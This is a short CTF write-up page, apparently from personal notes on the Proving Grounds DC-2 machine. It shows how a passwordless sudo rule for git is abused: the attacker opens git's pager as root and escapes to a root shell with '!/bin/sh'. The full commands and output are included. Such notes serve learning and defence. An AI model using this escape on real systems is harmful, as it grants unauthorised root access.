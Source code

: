 ```yaml
---
layout: default
title: Git
parent: Sudo
nav_order: 2
---
```


# Git

---

## Check Sudo -l

```bash
jerry@DC-2:/home/tom$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git

```

## Exploit SUDO Permissions on Git Binary (Privesc Through Pagination)

![sudo](../../../../assets/images/ctfs/proving_grounds/dc-2/sudo.png)

```bash
jerry@DC-2:/home/tom$ sudo /usr/bin/git -p help config


# Break out of Git
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)

```
